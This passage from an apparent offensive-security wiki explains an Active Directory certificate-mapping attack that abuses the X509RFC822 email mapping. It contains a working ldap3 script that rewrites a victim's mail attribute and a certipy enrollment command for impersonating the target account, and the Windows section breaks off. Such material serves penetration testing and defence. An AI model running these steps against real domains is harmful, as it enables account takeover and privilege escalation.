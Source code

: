 ::: warning
> [!WARNING]
> * The target is a user account
> * The target already has at least one `X509RFC822` mapping in `altSecurityIdentities`
> * The attacker has write access to the `mail` attribute of the victim
> * The certificate template shows `CT_FLAG_NO_SECURITY_EXTENSION` in `msPKI-Enrollment-Flag` and shows the attribute `CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL` in `msPKI-Certificate-Name-Flag`
> * For PKINIT, `StrongCertificateBindingEnforcement` is set to `0` or `1`
> * For Schannel, `CertificateMappingMethods` indicates `0x8` and `StrongCertificateBindingEnforcement` is set to `0` or `1`
:::

::: tabs

=== UNIX-like

From UNIX-like systems, the `mail` attribute of the victim can be overwritten to match the `X509RFC822` mapping of the target using the following python script.

```python
import ldap3

server = ldap3.Server('<DC_HOST>')
victim_dn = "<VICTIM_DN>"
attacker_username = "<DOMAIN>\\<ATTACKER_SAMACCOUTNNAME>"
attacker_password = "<ATTACKER_PASSWORD>"

conn = ldap3.Connection(
    server=server,
    user=attacker_username,
    password=attacker_password,
    authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
    victim_dn,
    {'mail':[(ldap3.MODIFY_REPLACE, '<TARGET_EMAIL>')]}
)

conn.unbind()
```

With [certipy](https://github.com/ly4k/Certipy), it is then possible to enroll on a certificate template using the victim credentials.

```bash
certipy req -u $VICTIM@$DOMAIN -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

=== Windows

From Windows systems, with PowerShell the `mail` attribute of the victim must be overwritten to match the email indicates in the `X509RFC822` mapping of the target.
